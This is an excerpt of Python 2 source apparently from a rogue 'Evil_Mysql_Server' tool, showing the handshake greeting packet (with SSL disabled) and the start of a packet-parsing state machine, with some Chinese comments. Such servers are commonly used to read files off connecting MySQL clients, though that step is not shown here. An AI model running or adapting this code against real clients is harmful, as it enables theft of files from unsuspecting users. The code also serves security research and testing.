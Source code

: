 ```python
        #     mysql_packet(
        #         0,
        #         "".join((
        #             '\x0a',  # Protocol
        #             '3.0.0-Evil_Mysql_Server' + '\0',  # Version
        #             #'5.1.66-0+squeeze1' + '\0',
        #             '\x36\x00\x00\x00',  # Thread ID
        #             'evilsalt' + '\0',  # Salt
        #             '\xdf\xf7',  # Capabilities
        #             '\x08',  # Collation
        #             '\x02\x00',  # Server Status
        #             '\0' * 13,  # Unknown
        #             'evil2222' + '\0',
        #         ))
        #     )
        # )
        # 这个Server Greeting太老了
        self.push(
            mysql_packet(
                0,
                "".join((
                    '\x0a',
                    '5.7.37-log' + '\0',
                    '\x02\x00\x00\x00',
                    '\x2b\x3a\x31\x7a\x22\x72\x64\x4f\x00',
                    '\xff\xf7',# 关闭ssl .... 0... .... .... = Switch to SSL after handshake: Not set
                    '\x2d',
                    '\x02\x00',
                    '\xff\xc1',
                    '\x15',
                    '\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00',
                    '\x6b\x66\x64\x01\x4c\x1e\x0a\x5f\x79\x0d\x27\x5b\x00',
                    'mysql_native_password' + '\0',
                ))
            )
        )
        self.order = 1
        self.states = ['LOGIN', 'CAPS', 'ANY']

    def push(self, data):
        log.debug('Pushed: %r', data)
        data = str(data)
        asynchat.async_chat.push(self, data)

    def collect_incoming_data(self, data):
        log.debug('Data recved: %r', data)
        self.ibuffer.append(data)

    def found_terminator(self):
        data = "".join(self.ibuffer)
        self.ibuffer = []

        if self.state == 'LEN':
            len_bytes = ord(data[0]) + 256*ord(data[1]) + 65536*ord(data[2]) + 1
            if len_bytes < 65536:
                self.set_terminator(len_bytes)
                self.state = 'Data'
            else:
                self.state = 'MoreLength'
        elif self.state == 'MoreLength':
            if data[0] != '\0':
                self.push(None)
                self.close_when_done()
```